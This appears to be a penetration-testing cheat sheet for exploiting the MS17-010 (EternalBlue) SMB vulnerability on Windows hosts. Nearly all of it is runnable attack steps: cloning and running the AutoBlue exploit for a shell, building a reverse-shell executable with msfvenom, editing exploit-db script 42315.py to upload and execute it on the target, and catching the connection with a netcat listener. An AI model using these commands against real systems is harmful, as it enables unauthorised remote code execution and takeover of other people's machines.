 ### install dependecies
```
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
cd AutoBlue-MS17-010
pip2.7 install -r requirements.txt
```

### get semi interactive shell
```
python zzz_exploit.py <rhost>
```


### another variant - install dependecies
```
virtualenv -p /usr/bin/python2.7 exploit2
source exploit2/bin/activate
pip install impacket
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```

### generate reverse shell
```
msfvenom -p windows/shell_reverse_tcp -f exe lhost=<lhost> lport=<lport> > shell.exe
```

### adjust 42315.py (user can also be empty)
```
USERNAME = '<user>'
...
     smb_send_file(smbConn, "<path/to/local/shell.exe>", 'C', '/shell.exe')
     service_exec(conn, r'cmd /c C:\shell.exe')
```

### start listener
```
nc -lnvp <lport>
```

### exploit
```
python 42315.py <rhost>
```

### References
https://www.exploit-db.com/exploits/42315  

